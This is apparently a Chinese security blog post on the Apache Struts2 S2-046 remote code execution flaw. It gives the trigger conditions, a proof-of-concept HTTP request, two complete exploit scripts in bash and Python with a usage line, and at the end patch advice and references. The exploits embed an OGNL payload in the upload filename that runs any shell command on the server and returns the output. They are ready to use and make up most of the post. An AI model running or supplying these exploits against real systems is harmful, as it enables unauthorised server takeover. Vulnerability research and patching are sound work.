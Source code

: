 ```yaml
---
title: Struts2-046漏洞
date: 2017-03-21 10:41:05
comments: true
tags: 
- struts2漏洞
- struts2 Poc
categories: web安全
---
```

<blockquote class="blockquote-center">屋漏偏逢连夜雨，船迟又遇打头风</blockquote>
免责申明：*文章中的工具等仅供个人测试研究，请在下载后24小时内删除，不得用于商业或非法用途，否则后果自负*
　　Apache Struts 2 2.3.32之前的2 2.3.x版本和2.5.10.1之前的2.5.x版本中的Jakarta Multipart解析器存在安全漏洞，该漏洞源于程序没有正确处理文件上传。攻击者可以通过构造HTTP请求头中的Content-Type值可能造成远程任意代码执行，S2-046与S2-045漏洞属于同一类型，不同向量。如果在之前S2-045漏洞曝光后用户已经升级过官方补丁，这次就不受影响。
<!--more -->

### 触发条件
1.上传文件的大小（由Content-Length头指定）大于Struts2允许的最大大小（2GB）。
2.文件名内容构造恶意的OGNL内容。

### S2-046PoC
```bash
POST /doUpload.action HTTP/1.1
Host: localhost:8080
Content-Length: 10000000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAnmUgTEhFhOZpr9z
Connection: close
 
------WebKitFormBoundaryAnmUgTEhFhOZpr9z
Content-Disposition: form-data; name="upload"; filename="%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test','Kaboom')}"
Content-Type: text/plain
Kaboom 
 
------WebKitFormBoundaryAnmUgTEhFhOZpr9z--
```
### Exp
#### Sh版
```bash
#!/bin/bash

url=$1
cmd=$2
shift
shift

boundary="---------------------------735323031399963166993862150"
content_type="multipart/form-data; boundary=$boundary"
payload=$(echo "%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"$cmd"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}")

printf -- "--$boundary\r\nContent-Disposition: form-data; name=\"foo\"; filename=\"%s\0b\"\r\nContent-Type: text/plain\r\n\r\nx\r\n--$boundary--\r\n\r\n" "$payload" | curl "$url" -H "Content-Type: $content_type" -H "Expect: " -H "Connection: close" --data-binary @- $@
```
sh exploit-cd.sh http://xxx.com/action "whoami"

#### Python版
```bash
__author__ = 'hackteam.cn'
import pycurl
import StringIO
import urllib
def tt(url,data):
    sio = StringIO.StringIO()
    c = pycurl.Curl()
    c.setopt(pycurl.URL, url)
    c.setopt(pycurl.REFERER, url)
    c.setopt(pycurl.HTTPHEADER, ['Connection: close', 'Content-Type: multipart/form-data; boundary=---------------------------735323031399963166993862150', 'User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.143 Safari/537.36'])
    c.setopt(pycurl.HTTP_VERSION, pycurl.CURL_HTTP_VERSION_1_0)
    c.setopt(pycurl.POST, 1)
    c.setopt(pycurl.POSTFIELDS, data)
    c.setopt(pycurl.CONNECTTIMEOUT, 300)
    c.setopt(pycurl.TIMEOUT, 300)
    c.setopt(pycurl.WRITEFUNCTION, sio.write)
    try:
        c.perform()
    except Exception, ex:
        pass
    c.close()
    resp = sio.getvalue()
    sio.close()
    return resp

data="-----------------------------735323031399963166993862150\r\nContent-Disposition: form-data; name=\"foo\"; filename=\"%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}\0b\"\r\nContent-Type: text/plain\r\n\r\nx\r\n-----------------------------735323031399963166993862150--\r\n\r\n"
print tt('https://xxx.action',data)
```
### 修复建议
1. 严格过滤 Content-Type 、filename里的内容，严禁ognl表达式相关字段。
2. 如果您使用基于Jakarta插件，请升级到Apache Struts 2.3.32或2.5.10.1版本。（强烈推荐）

### 官网公告
https://cwiki.apache.org/confluence/display/WW/S2-045
https://cwiki.apache.org/confluence/display/WW/S2-046


### 补丁地址
Struts 2.3.32：https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.32 
Struts 2.5.10.1：https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.10.1 


### 参考
http://struts.apache.org/docs/s2-045.html
http://struts.apache.org/docs/s2-046.html
https://community.hpe.com/t5/Security-Research/Struts2-046-A-new-vector/ba-p/6949723


欲知Struts2-045请参考：[struts2_045漏洞](http://thief.one/2017/03/07/Struts2-045%E6%BC%8F%E6%B4%9E/)
欲知Struts2历史Poc请参数：[struts2漏洞poc汇总](http://thief.one/2017/03/13/Struts2%E6%BC%8F%E6%B4%9EPOC%E6%B1%87%E6%80%BB/)

转载请说明出处:[Struts2_046漏洞](http://thief.one/2017/03/21/Struts2-046%E6%BC%8F%E6%B4%9E/)
本文地址：http://thief.one/2017/03/21/Struts2-046%E6%BC%8F%E6%B4%9E/